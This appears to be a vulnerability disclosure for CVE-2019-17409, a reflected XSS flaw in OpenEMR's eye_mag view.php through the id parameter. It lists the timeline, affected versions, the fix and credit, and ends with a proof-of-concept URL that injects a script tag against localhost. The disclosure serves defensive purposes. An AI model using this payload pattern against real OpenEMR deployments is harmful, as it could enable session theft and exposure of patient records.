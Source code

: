 # CVE-2019-17409
Reflected XSS exists in `interface/forms/eye_mag/view.php` in OpenEMR 5.x before 5.0.2.1 via the `id` parameter.

## Timeline
* **Discovered:** October 8, 2019
* **Pull Request Issued:** October 9, 2019
* **Reported:** October 9, 2019
* **OpenEMR merged pull Request:** October 9, 2019
* **CVE ID issued:** October 9,  2019
* **OpenEMR Release:** October 10, 2019 (5.0.2.1)

## Version Details
**Fixed-In Version:** 5.0.2.1

**Affected Versions:**
* 5.0.1
* 5.0.1.1
* 5.0.1.2
* 5.0.1.3
* 5.0.1.4
* 5.0.1.5
* 5.0.1.6
* 5.0.1.7
* 5.0.2

## Credit
Will Porter, Lodestone Security (https://www.lodestonesecurity.com/)

## References
[Pull Request](https://github.com/openemr/openemr/pull/2712)

## POC Exploit
Assuming OpenEMR is running on `localhost`
```
http://localhost/openemr/interface/forms/eye_mag/view.php?id=xss%22%3E%3C/a%3E%3Cscript%3Ealert(1)%3C/script%3E%3Ca%20href=%22#%22%20faketag=%22
```
